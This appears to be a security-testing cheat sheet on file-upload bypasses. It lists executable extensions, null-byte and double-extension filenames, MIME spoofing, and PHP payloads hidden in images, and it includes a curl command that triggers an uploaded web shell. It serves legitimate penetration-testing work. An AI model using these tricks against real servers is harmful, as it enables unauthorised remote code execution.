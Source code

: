 # Upload

Uploaded files may pose a significant risk if not handled correctly. A remote attacker could send a multipart/form-data POST request with a specially-crafted filename or mime type and execute arbitrary code.

## Summary

* [Tools](#tools)
* [Exploits](#exploits)
    * [PHP Extension](#php-extension)
    * [Other extensions](#other-extensions)
    * [Upload tricks](#upload-tricks)
    * [Picture upload with LFI](#picture-upload-with-lfi)
    * [Configuration Files](#configuration-files)
    * [CVE - Image Tragik](#cve---image-tragik)
* [References](#references)


## Tools
- [Fuxploider](https://github.com/almandin/fuxploider)

## Exploits

### PHP Extension

```powershell
.php
.php3
.php4
.php5
.php7

Less known extensions
.pht
.phar
.phpt
.pgif
.phtml
.phtm

Double extensions
.jpeg.php
.jpg.php
.png.php
```

### Other extensions

```powershell
asp : .asp, .aspx, .cer and .asa (IIS <= 7.5), shell.aspx;1.jpg (IIS < 7.0)
perl: .pl, .pm, .cgi, .lib
jsp : .jsp, .jspx, .jsw, .jsv, .jspf
Coldfusion: .cfm, .cfml, .cfc, .dbm
```

### Upload tricks

- Null byte (works well against `pathinfo()`)
    * .php%00.gif
    * .php\x00.gif
    * .php%00.png
    * .php\x00.png
    * .php%00.jpg
    * .php\x00.jpg
- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
    * `Content-Type : image/gif`
    * `Content-Type : image/png`
    * `Content-Type : image/jpeg`
- [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
    Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.

### Picture upload with LFI

Valid pictures hosting PHP code. Upload the picture and use a local file inclusion to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.

### Configuration Files

- .htaccess
- web.config
- httpd.conf
- \_\_init\_\_.py


### CVE - Image Tragik

```powershell
HTTP Request
Reverse Shell
Touch command
```

## References

* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil
* [BookFresh Tricky File Upload Bypass to RCE, NOV 29, 2014 - AHMED ABOUL-ELA](https://secgeek.net/bookfresh-vulnerability/)
* [Encoding Web Shells in PNG IDAT chunks, 04-06-2012, phil](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
* [La PNG qui se prenait pour du PHP, 23 février 2014](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)
* [File Upload restrictions bypass - Haboob Team](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
